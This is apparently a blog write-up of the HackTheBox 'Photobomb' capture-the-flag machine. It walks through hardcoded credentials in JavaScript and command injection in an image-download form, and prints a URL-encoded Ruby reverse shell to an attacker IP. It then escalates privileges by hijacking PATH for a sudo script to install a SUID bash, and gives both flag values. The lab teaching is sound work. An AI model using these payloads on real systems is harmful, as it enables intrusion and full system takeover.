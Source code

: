```yaml
---
title: "HTB: Photobomb"
date: 2023-01-11T14:15:25+08:00
draft: false
author: "Jack Sun"
tags:
  - CTFs
  - Writeups
  - HackTheBox
  - Cybersecurity
image: /images/writeups/HTB/photobomb/banner.png
---
```


## Description

- 20 pts, Easy
- Written by `slartibartfast`

## User Flag

First thing first, add an entry to the `/etc/hosts` file with

```sh
echo "<ip address> photobomb.htb" >> /etc/hosts
```

Running nmap on the domain, we can see that there are 2 ports exposed:

- Web server on port 80
- SSH on 22

![nmap](/images/writeups/HTB/photobomb/nmap.png)

Checking out the web server on port 80, we are greeted with the website for a photo printing service called Photobomb.

![Click Here](/images/writeups/HTB/photobomb/index.png)

There is a link called `click here!` on the website, which points to another webpage. However this route is protected by a login form.

![Login](/images/writeups/HTB/photobomb/login.png)

Without the credentials, we are greeted with a `401` NGINX error page.

Checking out the the source code, we find a javascript file called `photobomb.js` containing the following:

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

From this, we find the tech support credentials: `pH0t0:b0Mb!`, which we can manually enter into the login form or use the url `http://pH0t0:b0Mb!@photobomb.htb/` to automatically authenticate ourselves.

Unfortunately, I note here that the tech support credentials do not work for the SSH service that we found earlier through the nmap scan.

Anyways, now that have the tech support logins, we can navigate to the `/printer` route. Upon inspection, there is a download form at the bottom that allows for the selected image to be resized and downloaded.

Let's fire up Burp Suite and intercept that download request!

![Burp](/images/writeups/HTB/photobomb/burp.png)

We can see that the request uses the `POST` method. The URL encoded form data contains 3 parameters:

- `photo`
- `filetype`
- `dimensions`

I initially tried to manipulate the `photo` parameter in hopes of getting some form of path traversal or arbitrary file read, however, this proved unsuccessful.

I noted that if I sent a blank request, the server would return a debug page.

![blank_request](/images/writeups/HTB/photobomb/blank_request.png)

![error](/images/writeups/HTB/photobomb/error.png)

From this, I was able to determine that the server is running the Sinatra Ruby framework. I then tried searching for CVEs related to Sinatra to no success.

After sending the request to Burp Repeater and fuzzing all the parameters, I noticed that the server was returning a `500` error code when certain characters such as `'`, `"`, `$`, `;` were added after jpg in the `filetype` parameter. This could be an indication of a Remote Code Execution vulnerability.

This hypothesis can be tested by sending a test URL encoded payload such as `jpg;sleep%20100` on the filetype parameter. After sending the payload, we can see that the request takes a long time to complete, eventually timing out, thus confirming that our payload is being executed on the server and that a Remote Code Execution vulnerability exists.

Next, we will try to pop a reverse shell on the server so we can capture the user flag. I went to [revshells.com](https://www.revshells.com/) and tried a few payloads. Of course, we must URL Encode the payload as we are sending it as a form parameter. The `Ruby #1` payload seemed to work in this instance:

```ruby
ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.XX.XX.XX%22%2C4444%29%29%27
```

After starting a reverse shell listener on my machine, I sent the payload to the server and after a while, I caught a reverse shell. Running `whoami`, we can see that we have taken over the account of `wizard`.

![whoami](/images/writeups/HTB/photobomb/whoami.png)

Next we can upgrade the shell to a TTY with python. `python -c 'import pty; pty.spawn("/bin/bash")'` complained that python was not installed. I tried again with `python3` and it worked.

![upgrade](/images/writeups/HTB/photobomb/upgrade.png)

After changing into the home directory via `cd ~`, we find a file called `user.txt` containing the user flag.

![user flag](/images/writeups/HTB/photobomb/userflag.png)

User flag: `c2b4e704eecdabe4cba7c012ce9c8fe6`

## Root Flag

Running `sudo -l`, we see that `wizard` can run a peculiar script `/opt/cleanup.sh` as root without a password.

! [sudo](/images/writeups/HTB/photobomb/sudo.png)

Catting out the contents of the script gives us the following:

```sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Immediately, I noticed that `find` is not called explicitly with its full path like the other commands. This is vulnerable to a `PATH` variable manipulation attack. We can inject a malicious path into the PATH variable before `/usr/bin` containing a malicious script called `find`. Then, when we execute `/opt/cleanup.sh`, it will execute our malicious `find` script instead of the original `find` program in `/usr/bin`.

Inside `/tmp/find`, we can write a simple script to install a privileged bash shell with the SUID bit set in `/tmp` and then run `/opt/cleanup.sh`. I have adapted the installation command from [GTFO Bin](https://gtfobins.github.io/gtfobins/bash/#suid) as below for our purposes:

```sh
install -m =xs $(which bash) /tmp/bash
```

After doing so, we give the script execute permission with `chmod +x ./find`. We can now run `sudo PATH=/tmp:$PATH /opt/cleanup.sh`, which will in turn execute our malicious script.

![install](/images/writeups/HTB/photobomb/install.png)

We can now spawn a root bash shell with `/tmp/bash -p`. Running `whoami` confirms that we are root.

![root](/images/writeups/HTB/photobomb/root.png)

Next, we can navigate to `/root` and capture the root flag.

![root flag](/images/writeups/HTB/photobomb/rootflag.png)

Root flag: `899b78ed71f3a29a23df770acc5ce2fa`
